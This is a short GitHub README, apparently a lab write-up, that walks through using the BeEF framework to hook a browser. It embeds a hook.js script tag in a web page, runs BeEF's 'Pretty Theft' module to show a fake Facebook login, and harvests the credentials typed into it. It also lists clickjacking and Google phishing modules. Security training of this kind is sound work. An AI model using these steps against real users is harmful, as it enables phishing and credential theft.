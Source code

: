 # Social-Engineering-Attack-with-Beef
Beef is a framework to create phishing websites that can be sent to a victim to steal their credentials

## Prerequisites

In Kali, search for the application and run beef. This should open a command line that should prompt for an input of the username and/or password.

## Running the Attack

1. In a html page embed the beef script: Example:
``
<html>
    <head>
    <title>
        Example BeEF hooked page
    </title>
    </head>
    <body>
        <p>This page should be running the hook script for BeEF</p>
        <script src="http://127.0.0.1:3000/hook.js"></script>
    </body>
</html>
2. Run the apache2 by ``sudo service apache2 start``
3. Within the BeEF Control panel, this should show that an online browser has been hooked. 

![image](https://user-images.githubusercontent.com/39514108/152269172-2449270c-d5c7-4b5c-ae0c-2def95cec14c.png)
4. In the Beef control panel click: Commands-> Social Engineering -> Pretty Theft -> Execute. This shoudl generate a fake page according to the dialog type. For example using Facebook: 

![image](https://user-images.githubusercontent.com/39514108/152269440-6e5328db-4594-4b29-9772-92c6fd8c7a20.png)
This displays the following dialog on the victim's page: 
![image](https://user-images.githubusercontent.com/39514108/152269473-2f010c7b-9051-480b-8477-c357cfe1f215.png)

6. Enter in Fake Credentials

![image](https://user-images.githubusercontent.com/39514108/152269525-24745bdf-1851-4db3-9fdf-51435523a11e.png)

7. Harvest the credentials by navigating back to the beef control panel and click on the command to view the results. 

![image](https://user-images.githubusercontent.com/39514108/152269606-0603389a-f65c-41ed-b0e5-5660b0b8793a.png)

## Other Attacks
1. Fake Notifications
![image](https://user-images.githubusercontent.com/39514108/152269698-21826f19-a9bc-4bd1-a574-54f226604b1f.png)
2. Click Hijacking 

![image](https://user-images.githubusercontent.com/39514108/152269797-4cb5aa9f-1254-46e4-b985-e875a5fc94a1.png)

3. Google Phishing

![image](https://user-images.githubusercontent.com/39514108/152269873-65b931a4-0bfe-4b10-955a-50de20097e62.png)


